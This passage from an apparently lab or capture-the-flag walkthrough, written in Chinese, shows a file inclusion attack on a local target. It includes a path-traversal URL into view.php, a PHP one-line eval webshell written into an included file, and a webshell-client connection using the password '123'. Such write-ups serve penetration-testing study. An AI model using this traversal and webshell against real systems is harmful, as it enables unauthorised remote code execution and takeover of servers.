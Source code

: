 (2) 创建一个**test表**

![image-20220315161958212](https://gitee.com/xxb667/img/raw/master/img/image-20220315161958212.png)

(3) 写入phpinfo 看下是否利用成功

![image-20220315162223937](https://gitee.com/xxb667/img/raw/master/img/image-20220315162223937.png)

创建成功

![image-20220315162247240](https://gitee.com/xxb667/img/raw/master/img/image-20220315162247240.png)



# 3.getshell

## 3.1 文件包含漏洞getshell

文件路径

```
/usr/databases/hack.php
```

文件包含

```
http://192.168.81.142/view.php?page=../../../usr/databases/hack.php
```

![image-20220315162606721](https://gitee.com/xxb667/img/raw/master/img/image-20220315162606721.png)

思路：包含一个php 一句话木马，getshell。

把`phpinfo()`修改为

```
<?php @eval($_POST[123]);?>
```

然后再文件包含

![image-20220315162744367](https://gitee.com/xxb667/img/raw/master/img/image-20220315162744367.png)

## 3.2 中国蚁剑连接

```
http://192.168.81.142/view.php?page=../../../usr/databases/hack.php
```

密码为：

```
123
```

![image-20220315162852260](https://gitee.com/xxb667/img/raw/master/img/image-20220315162852260.png)
